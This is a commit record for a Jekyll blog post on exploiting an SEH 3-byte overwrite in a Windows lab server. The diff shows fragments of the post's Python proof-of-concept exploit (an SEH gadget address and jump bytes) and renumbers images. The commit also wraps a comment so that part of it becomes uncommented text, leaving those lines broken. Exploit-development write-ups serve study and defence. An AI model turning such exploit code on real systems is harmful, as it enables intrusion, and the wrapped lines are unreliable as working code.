

Before and after one commit to whitecr0wz/whitecr0wz.github.io, a Jekyll site: the page built from _posts/posts/2020-03-09-Exploiting-SEH-3-byte-Overwrite-on-Windows.md, in a window 1280 px wide and 900 px high, scrolled down 6367 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2020-03-09-Exploiting-SEH-3-byte-Overwrite-on-Windows.md

```diff
--- a/_posts/posts/2020-03-09-Exploiting-SEH-3-byte-Overwrite-on-Windows.md
+++ b/_posts/posts/2020-03-09-Exploiting-SEH-3-byte-Overwrite-on-Windows.md
@@ -252,7 +252,8 @@
 
 host = sys.argv[1]
 
-seh = "\x59\x1C\x40\x00" # 0x00401c59 : pop esi # pop edi # ret  | startnull,asciiprint,ascii {PAGE_EXECUTE_READ} [server.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\IEUser\server.exe)
+seh = "\x59\x1C\x40\x00" # 0x00401c59 : pop esi # pop edi # ret  | startnull,asciiprint,ascii {PAGE_EXECUTE_READ} [server.exe] ASLR:
+False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\IEUser\server.exe)
 nseh = "\xEB\xF9\x90\x90"
 sjmp = "\xE9\xA9\xFC\xFF\xFF"
 
@@ -271,13 +272,13 @@
 
 After the exploit is sent, and the execution is Run (F9), the breakpoint instruction successfully works:
 
-![](/assets/img/SEH-NULL/15.png)
+![](/assets/img/SEH-NULL/16.png)
 
 ## Last step, shellcode
 
 Proabably the easiest part of all:
 
-![](/assets/img/SEH-NULL/16.png)
+![](/assets/img/SEH-NULL/17.png)
 
 Current PoC:
 
@@ -310,7 +311,9 @@
 
 host = sys.argv[1]
 
-seh = "\x59\x1C\x40\x00" # 0x00401c59 : pop esi # pop edi # ret  | startnull,asciiprint,ascii {PAGE_EXECUTE_READ} [server.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\IEUser\server.exe)
+seh = "\x59\x1C\x40\x00" # 0x00401c59 : pop esi # pop edi # ret  | startnull,asciiprint,ascii {PAGE_EXECUTE_READ} [server.exe] ASLR:
+
+False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\IEUser\server.exe)
 nseh = "\xEB\xF9\x90\x90"
 sjmp = "\xE9\xA9\xFC\xFF\xFF"
 
@@ -329,4 +332,4 @@
 
 # EndGame
 
-![](/assets/img/SEH-NULL/17.png)
+![](/assets/img/SEH-NULL/18.png)
```
